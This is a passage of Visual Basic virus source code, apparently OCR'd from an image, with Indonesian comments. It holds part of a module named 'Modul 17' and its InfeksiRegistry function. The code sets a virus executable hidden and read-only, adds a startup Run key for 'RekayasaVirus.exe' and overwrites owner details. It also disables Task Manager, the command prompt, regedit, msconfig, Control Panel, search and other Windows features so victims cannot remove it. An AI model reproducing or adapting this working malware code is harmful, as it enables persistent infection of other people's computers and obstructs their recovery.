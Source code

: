 "VirusFuady.exe", FILE\_ATTRIBUTE\_HIDDEN Or \_  
FILE\_ATTRIBUTE\_READONLY  
End Function

**Modul 17**: 

Public Function InfeksiRegistry()  
Dim WShell As Object, RG1 As String, RG2 As String  
Dim RG3 As String, RG4 As String  
RG1 = "Software\\Microsoft\\Windows\\CurrentVersion\\"  
RG2 = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\"  
RG3 = "Software\\Microsoft\\Internet Explorer\\Main\\"  
RG4 = "Software\\Policies\\Microsoft\\Windows\\system\\"  
Set WShell = CreateObject("WScript.Shell")  
'-- merubah registered owner windows  
WShell.Regwrite "HKLM\\" & RG2 & "\\RegisteredOwner", "Virus"  
'-- merubah registered organization windows  
WShell.Regwrite "HKLM\\" & RG2 & "\\RegisteredOrganization", "Rekayasa"  
'-- merubah Title Internet Explorer  
WShell.Regwrite "HKCU\\" & RG3 & "\\Window Title", "::Rakayasa::Virus::"  
'-- mengaktifkan virus pada saat setiap starup sistem  
WShell.Regwrite "HKLM\\" & RG1 & "\\Run\\RekayasaVirus", \_  
GetWindowsPath & "RekayasaVirus.exe"  
'-- blokir command prompt  
WShell.Regwrite "HKCU\\" & RG4 & "DisableCMD", \_  
"1", "REG\_DWORD"  
'-- blokir task manager  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\System\\DisableTaskMgr", \_  
"1", "REG\_DWORD"  
'-- blokir regedit  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\System\\DisableRegistryTools", \_  
"1", "REG\_DWORD"  
'-- blokir msconfig  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\System\\DisableMsConfig", \_  
"1", "REG\_DWORD"  
'-- advanced hidden  
WShell.Regwrite "HKCU\\" & RG1 & "Advanced\\Hidden", "0", "REG\_DWORD"  
'-- blokir fasilitas run  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoRun", \_  
"1", "REG\_DWORD"  
'-- blokir fasilitas pencarian  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoFind", \_  
"1", "REG\_DWORD"  
'-- blokir fasilitas pengaturan folder  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoFolderOptions", \_  
"1", "REG\_DWORD"  
'-- blokir fasilitas-fasilitas lainnya  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoClose", \_  
"1", "REG\_DWORD"  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoControlPanel", \_  
"1", "REG\_DWORD"  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoViewContextMenu", \_  
"1", "REG\_DWORD"  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoStartMenuMorePrograms", \_  
"1", "REG\_DWORD"  
WShell.Regwrite "HKCU\\" & RG1 & "Policies\\Explorer\\NoViewOnDrive", \_  
"1", "REG\_DWORD"  
Set WShell = Nothing  
End Function
